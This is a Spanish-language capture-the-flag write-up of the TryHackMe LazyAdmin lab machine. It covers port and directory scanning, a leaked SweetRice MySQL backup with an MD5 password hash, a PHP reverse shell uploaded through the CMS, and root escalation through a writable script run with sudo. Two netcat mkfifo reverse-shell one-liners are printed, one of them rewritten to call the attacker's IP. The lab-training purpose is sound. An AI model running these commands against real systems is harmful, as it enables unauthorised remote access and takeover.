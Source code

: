 ```yaml
---
title:  CTF TryHackme LazyAdmin
tags:
  - Tryhackme
  - Linux
---
```


<div class="card mb-3">
    <center>
            <img class="card-img-top" src="/theme/img/THM/LazyAdmin/titulo_lazyadmin.jpeg"/>
    </center>
</div>

Máquina: Linux

IP: 10.10.222.100

Creada por MrSeth6797

<!--more-->

## User flag

Se realiza un reconocimiento para ver qué puertos tiene abiertos la máquina usando **nmap**:

```bash
nmap -p- 10.10.222.100
```
<div class="card mb-3">
    <center>
            <img class="card-img" src="/theme/img/THM/LazyAdmin/nmap.png"/>
    </center>
</div>

Los puertos abiertos son el 22/tcp(SSH) y 80/tcp (HTTP).

En el puerto 80, está la página principal que es la de Apache. Se procede a ejecutar **gobuster** para ver qué directorios están ocultos.

```bash
gobuster -u http://10.10.222.100/ -w /usr/share/wordlist/SecLists/Discovery/Web-Content/common.txt
```

Como resultado se obtiene un directorio interesante que es **/content**. Una vez dentro se encuentra un CMS Sweet Rice que es un administrador para webs. Se usa el **searchploit SweetRice** para ver qué vulnerabilidades tiene.

<div class="card mb-3">
    <center>
            <img class="card-img" src="/theme/img/THM/LazyAdmin/searchploit.png"/>
    </center>
</div>

De estas vulnerabilidades, la interesante es Backip Disclosure que trata de que se puede acceder al backup de mysql de la web que se encuentra en **http://10.10.222.100/content/inc/mysql_backup** y se puede visualizar.

<div class="card mb-3">
    <center>
            <img class="card-img" src="/theme/img/THM/LazyAdmin/mysql_backup.png"/>
    </center>
</div>

Dentro del archivo sql, se encuentra el nombre del usuario **manager** y una contraseña guardado en formato MD5. Se desencripta el hash MD5 y se obtiene la contraseña de manager.

Se accede al panel de SweentRice con las credenciales a través del login **/content/as**.

Una vez dentro, se puede aplicar la vulnerabilidad **SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution**. En la sección Ads, se añade el siguiente código sustituyendo la parte del código PHP por la de una reverse shell en PHP.

<div class="card mb-3">
    <center>
            <img class="card-img" src="/theme/img/THM/LazyAdmin/crosssite.png"/>
    </center>
</div>

Se sube el código escrito a la página para después abrirlo desde la ruta **/content/inc/ads/shell.php**

<div class="card mb-3">
    <center>
            <img class="card-img" src="/theme/img/THM/LazyAdmin/shellphp.png"/>
    </center>
</div>

Se crea una reverse shell y se obtiene el flag user en la ruta **/home/itguy**

<div class="card mb-3">
    <center>
            <img class="card-img" src="/theme/img/THM/LazyAdmin/userflag.png"/>
    </center>
</div>

## Root Flag

Para elevar privilegios en el sistema, se observan varias cosas:

1. La primera que existe un archivo **backup.pl** con propiedad de root en la carpeta de /home/itguy
2. Con el comando sudo -l, tenemos la posibilidad de ejecutar el archivo backup.pl como sudo mediante perl

<div class="card mb-3">
    <center>
            <img class="card-img" src="/theme/img/THM/LazyAdmin/sudo.png"/>
    </center>
</div>

Se inspecciona el código de backup.pl para saber que hace y se observa que realiza un comando **system sh** para ejecutar el fichero **/etc/copy.sh**. El código de este ejecutable es una shell reverse usando netcat:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

Este fichero tiene la opción de que cualquier otro usuario pueda escribir sobre él. Por lo que se modifica la IP con **echo** para que realice la shell hacia nuestro PC.

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.22.147 5554 >/tmp/f" > /etc/copy.sh
```

Con esto, se ejecuta **sudo /usr/bin/perl /home/itguy/backup.pl** mientras en otra terminal se tiene el netcat en escucha por el puerto indicado y se obtiene root.

<div class="card mb-3">
    <center>
            <img class="card-img" src="/theme/img/THM/LazyAdmin/rootflag.png"/>
    </center>
</div>